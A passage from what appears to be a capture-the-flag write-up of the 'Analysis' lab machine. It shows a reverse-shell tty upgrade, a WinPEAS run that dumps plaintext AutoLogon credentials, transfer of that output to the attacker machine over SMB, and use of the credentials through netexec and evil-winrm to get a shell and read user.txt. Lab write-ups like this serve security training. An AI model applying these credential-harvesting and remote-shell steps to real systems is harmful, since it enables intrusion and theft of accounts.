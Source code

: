 Now in the nc listener, do ctrl+z, `stty raw -echo;fg` and clean with ctrl+l. At the first time when you change directory, it might give an error, but it's not important and it then will work ok. Now you are in a fully interactive shell and you can do ctrl+c, you have autocomplete and you can view errors that you can have in powershell.

# Access as jdoe

Running WinPEAS, we can see AutoLogon Credentials:

```powershell
PS C:\Windows\Temp\privesc> .\winPEASx64.exe | tee output.txt 
[...SNIP...]
```

Transfer the output.txt to your machine using [smb](https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration#smb) with credentials (or it will fail). And here we can see the autologon credentials:

```bash
❯ cat output.txt
[...SNIP...]
+----------¦ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  analysis.htb.
    DefaultUserName               :  jdoe
    DefaultPassword               :  7y4Z4^*y9Zzj
[...SNIP...]
```

Also, we can see that it works with winrm:

```bash
❯ netexec winrm 10.10.11.250 -u 'jdoe' -p '7y4Z4^*y9Zzj'
WINRM       10.10.11.250    5985   DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 (name:DC-ANALYSIS) (domain:analysis.htb)
WINRM       10.10.11.250    5985   DC-ANALYSIS      [+] analysis.htb\jdoe:7y4Z4^*y9Zzj (Pwn3d!)
```

So we can evil-winrm to spawn a shell as jdoe and we can see user.txt:

```bash
❯ evil-winrm -i analysis.htb -u jdoe -p '7y4Z4^*y9Zzj'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jdoe\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\jdoe\Desktop> type user.txt
49a9edaf8a129d8130e3e2e4674a7f82
```
